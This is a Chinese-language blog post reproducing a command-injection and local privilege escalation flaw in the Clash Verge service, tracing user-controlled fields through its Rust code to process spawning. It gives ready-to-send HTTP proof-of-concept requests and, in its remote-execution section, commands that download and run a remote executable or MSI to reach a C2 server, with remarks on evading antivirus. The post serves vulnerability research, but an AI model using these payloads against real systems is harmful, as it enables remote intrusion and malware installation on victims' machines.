 #  Clash verge 漏洞复现   
Hne  安全的黑魔法   2025-05-11 01:30  
  
# Clash verge  
  
**Clash verge**  
是一款非常经典的 "**科学上网**  
" 工具,目前大部分人群的科学上网都依赖该类工具.由于本机也装了该工具，所以对此格外上心。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/o85eMywxzFS0tuTfFPgfJLtykrLK2wgz9AcFzSAQwguvicTJgwzAqEReMCtV2OgqrI0OExibCFoBbKLiboFIYQKfw/640?wx_fmt=png&from=appmsg "")  
  
isu 漏洞中提到为**本地提权**  
，并没有相关 POC，尝试定位问题代码，实现 EXP。  
  
下载漏洞代码：**clash-verge-service-dev**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/o85eMywxzFS0tuTfFPgfJLtykrLK2wgz42ayzX7nUASdgymf3rpGJ2CzMQHYNsRSButnDVqiaSZ76sJYgI4aPNA/640?wx_fmt=png&from=appmsg "")  
  
### 审计过程：  
  
Web 服务在**src/service/mod.rs **中定义了/start_clash 接口  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/o85eMywxzFS0tuTfFPgfJLtykrLK2wgzNF05RdoYLMuQicOCnm00rT8trD9Jefp7e0l55liaSdb6r369iaNvvXUFw/640?wx_fmt=png&from=appmsg "")  
  
这个接口接收 HTTP POST 请求，并将请求体解析为 StartBody 结构体，结构体定义在**src/service/data.rs**  
```
#[derive(Default, Debug, Deserialize, Serialize, Clone)]pub struct StartBody {    pub core_type: Option<String>,    pub bin_path: String,    pub config_dir: String,    pub config_file: String,    pub log_file: String,}
```  
  
请求体被传递给 CoreManager.start_clash() 方法 **src/service/core.rs**  
 ：  
  
并在**start_clash**  
方式数据被存储在 CoreManager.clash_status.runtime_config 中  
  
通过调用**start_mihomo()**函数，该函数将最终触发命令执行  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/o85eMywxzFS0tuTfFPgfJLtykrLK2wgzZHbjafIRIIHngHZorwsh8IyLIH40Vhhvyv9tuaFFPChDG3QNjajxbg/640?wx_fmt=png&from=appmsg "")  
  
  
  
具体漏洞代码如下：  
```
    /////////////////////////////////////////////////////////////////////    ///漏洞关键处///            let bin_path = config.bin_path.as_str(); // 数据包中的bin_path在此处被提取            let config_dir = config.config_dir.as_str();            let config_file = config.config_file.as_str();            let log_file = config.log_file.as_str();            let args = vec!["-d", config_dir, "-f", config_file]; // 直接拼接    ////////////////////////////////////////////////////////////////////            // 创建日志文件            let log = std::fs::File::create(log_file)                .with_context(|| format!("Failed to open log file: {}", log_file))?;            let pid = process::spawn_process(bin_path, &args, log)?;            println!("Mihomo started with PID: {}", pid);            self.mihomo_status.inner.lock().unwrap().running_pid.store(pid as i32, Ordering::Relaxed);            self.mihomo_status.inner.lock().unwrap().is_running.store(true, Ordering::Relaxed);            println!("Mihomo started successfully with PID: {}", pid);        }        Ok(())    }
```  
  
**clash-verge-service-dev\src\service\process.rs**  
  -->   **spawn_process**  
 函数命令执行：  
```
pub fn spawn_process(command: &str, args: &[&str], mut log: std::fs::File) -> io::Result<u32> {    // Log the command being executed    let _ = writeln!(log, "Spawning process: {} {}", command, args.join(" "));    log.flush()?;    #[cfg(target_os = "macos")]    {        // On macOS, use posix_spawn via Command        //未经验证的command 即参数bin_path 作为执行程序        let child = Command::new(command)            // 未经验证的args作为命令参数            .args(args)            .stdout(Stdio::from(log))            .stderr(Stdio::null())            .spawn()?;        // Get the process ID        let pid = child.id();        // Detach the child process        std::thread::spawn(move || {            let _ = child.wait_with_output();        });        Ok(pid)    }    #[cfg(not(target_os = "macos"))]    {        // [漏洞点1] 同样直接使用未经验证的command作为执行程序        let child = Command::new(command)            // [漏洞点2] 同样直接使用未经验证的args作为命令参数            .args(args)            .stdout(log)            .stderr(Stdio::null())            .spawn()?;        Ok(child.id())    }}
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/o85eMywxzFS0tuTfFPgfJLtykrLK2wgzKLeLFgDTibVvZwJ4VKzHOklfNVLQ20Wm8cMFPhYlHjQruVDoh9ztUnA/640?wx_fmt=png&from=appmsg "")  
  
### 漏洞流程分析  
  
**参数传递过程：**  
1. 从/start_clash HTTP 接口接收用户输入的 StartBody 结构体  
  
1. 然后数据被存储在 CoreManager.clash_status.runtime_config 中  
  
1. 下面从 runtime_config 中获取这些用户可控的输入值  
  
1. 构建命令行参数，但没有验证参数内容的安全性 ：**let args = vec!["-d", config_dir, "-f", config_file];**  
  
1. 调用 process::spawn_process 函数，将用户提供的命令和参数直接传递给系统执行  **let pid = process::spawn_process(bin_path, &args, log)?;**  
  
可以看到原程序的预期运行命令如下：  
  
![image-20250508201652315](https://mmbiz.qpic.cn/sz_mmbiz_png/o85eMywxzFS0tuTfFPgfJLtykrLK2wgz2TLiavmA8blzm1UWN77EtHicnibnIPQEUsibDiaQ8NYYnEeGzJlJbsaZAHg/640?wx_fmt=png&from=appmsg "")  
  
image-20250508201652315  
```
"E:\Clash\verge-mihomo.exe" -d C:\Users\Anonymous\AppData\Roaming\io.github.clash-verge-rev.clash-verge-rev -f C:\Users\Anonymous\AppData\Roaming\io.github.clash-verge-rev.clash-verge-rev\clash-verge.yaml
```  
  
E:\Clash\verge-mihomo.exe 即默认 **bin_path**  
 的值  
  
C:\Users\Anonymous\AppData\Roaming\io.github.clash-verge-rev.clash-verge-rev 即默认 **config_dir**  
 的值  
  
C:\Users\Anonymous\AppData\Roaming\io.github.clash-verge-rev.clash-verge-rev\clash-verge.yaml 即默认 **config_file**  
 的值  
  
由此全部可控，导致命令执行。  
  
**POC/EXP**  
构造如下：  
```
POST /start_clash HTTP/1.1Host: 127.0.0.1:33211Content-Type: application/json{"core_type":"verge-mihome","bin_path":"cmd.exe","config_dir":"","config_file":"/c calc ","log_file":"C:\\Windows\\Temp\\5.log"}
```  
  
![image-20250508204232164](https://mmbiz.qpic.cn/sz_mmbiz_png/o85eMywxzFS0tuTfFPgfJLtykrLK2wgzezWJhJgLHn5SpZkKBFr1mBBBKjCNsbtzAMze86OpoTdXTIVcicuuIBA/640?wx_fmt=png&from=appmsg "")  
  
可以看到 **clash-verge-service.exe**  
 拉起一个 cmd.exe 子进程  
  
![image-20250508204401925](https://mmbiz.qpic.cn/sz_mmbiz_png/o85eMywxzFS0tuTfFPgfJLtykrLK2wgzFXCYuU6qt4N2DNmRPs8zvYI6UbdiaVESiafCzuwWGmASRyiaRhpiaUFTgQ/640?wx_fmt=png&from=appmsg "")  
  
还有一些其他问题，比如传入参数转义等等，就不赘述了。  
### 远程命令执行:  
  
由于该服务进程默认仅监听**127.0.0.1:33211**  
，所以大部分情况只考虑其本地提权特性，  
  
![image-20250508204459517](https://mmbiz.qpic.cn/sz_mmbiz_png/o85eMywxzFS0tuTfFPgfJLtykrLK2wgzBVnkfZ0xmhF2kIsEGNvpYVcQc7VyFoRTic0HyJk9DNoVaxeF7texE3w/640?wx_fmt=png&from=appmsg "")  
  
但是在部分情况下，用户可能会勾选**局域网访问**  
，由此增加了**远程命令执行**  
的可能  
  
![image-20250508205851097](https://mmbiz.qpic.cn/sz_mmbiz_png/o85eMywxzFS0tuTfFPgfJLtykrLK2wgz6Z5C2YUABEvgdQ9rTQNGhQwicI0spYByspDHkrjvtOUk6PCTOlPF7qw/640?wx_fmt=png&from=appmsg "")  
  
通过代理隧道，访问该机器的 33211 端口，实现远程命令执行  
  
![image-20250508210938880](https://mmbiz.qpic.cn/sz_mmbiz_png/o85eMywxzFS0tuTfFPgfJLtykrLK2wgzwgTxibYjd9kwTZ5z5dV14NA90OKefIicMRPjZfHExGlvxUuqbibmOyRdQ/640?wx_fmt=png&from=appmsg "")  
  
![image-20250510021634490](https://mmbiz.qpic.cn/sz_mmbiz_png/o85eMywxzFS0tuTfFPgfJLtykrLK2wgzQy0WWpb9Q0mO3ozHXNNU5uv9DLo2Z5r21qzqEunuCJiatfQM8h1nPvQ/640?wx_fmt=png&from=appmsg "")  
  
但是在本地环境测试时，经常性会出现，在打过一次 poc 之后，会导致 clash verge 直接挂掉，除非重启程序，否则无法进行第二次发包。  
  
所以很多公众号提到的，通过任意文件写入，第二步直接执行，在远程测试时，都失败了。  
  
如果命令只有一次执行机会，那就直接尝试上线 c2  
  
常见上线命令：  
```
certutil.exe -urlcache -split -f http:/x.x.x.x:9000/x.exe C:\Users\Public\Downloads\x.exe && C:\Users\Public\Downloads\x.exe
```  
  
但该命令会直接被杀软/火绒拦截，可以使用其他上线姿势：  
```
msiexec /q /i http:/x.x.x.x:9000/2.msi && echo 1
```  
  
最后**POC**  
：  
```
POST /start_clash HTTP/1.1Host: 127.0.0.1:33211Content-Type: application/json{"core_type":"verge-mihome","bin_path":"cmd.exe","config_dir":"","config_file":"/c  msiexec /q /i http:/x.x.x.x:9000/2.msi && echo 1","log_file":"C:\\Windows\\Temp\\5.log"}
```  
  
  
补充一句：由于同源策略问题，该漏洞目前无法设计成蜜罐。  
  
  
